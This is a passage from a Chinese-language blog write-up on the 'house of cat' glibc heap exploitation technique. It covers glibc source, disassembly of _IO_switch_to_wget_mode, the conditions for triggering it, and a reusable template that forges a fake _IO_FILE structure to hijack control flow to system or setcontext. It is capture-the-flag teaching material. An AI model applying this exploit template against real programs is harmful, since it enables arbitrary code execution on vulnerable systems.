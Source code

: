 ```c
              || _IO_in_put_mode (fp));
 
  if (was_writing && _IO_switch_to_wget_mode (fp))
    return WEOF;
......
}
```

最终目的是调用`_IO_switch_to_wget_mode`函数

```assembly
► 0x7fbbb9489d30 <_IO_switch_to_wget_mode>       endbr64
  0x7fbbb9489d34 <_IO_switch_to_wget_mode+4>     mov    rax, qword ptr [rdi + 0xa0]
  0x7fbbb9489d3b <_IO_switch_to_wget_mode+11>    push   rbx
  0x7fbbb9489d3c <_IO_switch_to_wget_mode+12>    mov    rbx, rdi
  0x7fbbb9489d3f <_IO_switch_to_wget_mode+15>    mov    rdx, qword ptr [rax + 0x20]
  0x7fbbb9489d43 <_IO_switch_to_wget_mode+19>    cmp    rdx, qword ptr [rax + 0x18]
  0x7fbbb9489d47 <_IO_switch_to_wget_mode+23>    jbe    _IO_switch_to_wget_mode+56                
  0x7fbbb9489d49 <_IO_switch_to_wget_mode+25>    mov    rax, qword ptr [rax + 0xe0]
  0x7fbbb9489d50 <_IO_switch_to_wget_mode+32>    mov    esi, 0xffffffff
  0x7fbbb9489d55 <_IO_switch_to_wget_mode+37>    call   qword ptr [rax + 0x18]
```

这里call了一个`rax`相关的地址，而`rax`由`rdi`决定

再说调用条件，需要满足两个

1. `was_writing == 1`

   即fp->`_wide_data`->`_IO_write_ptr`    >  fp->`_wide_data`->`_IO_write_base`

   这里用到了前面提到的`_wide_data`跳表，可以直接伪造so easy

2. `mode!=0`

   `rcx`=>`mode`

   如果无法满足，可以再做一个FILE结构体，进入第二个结构体时就置好了，详细内容参考[Photon的博客](https://phot0n.com/2022/09/06/%E9%AB%98%E7%89%88%E6%9C%AC%E7%9A%84%E5%A0%86%E5%88%A9%E7%94%A8%E4%B8%8EFSOP/)

构造挺麻烦的，理解之后可以直接上别人的模板

```c
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```

详细题解可以看[另一篇博客](https://deepunk42.github.io/2023/07/27/house-of-cat/)
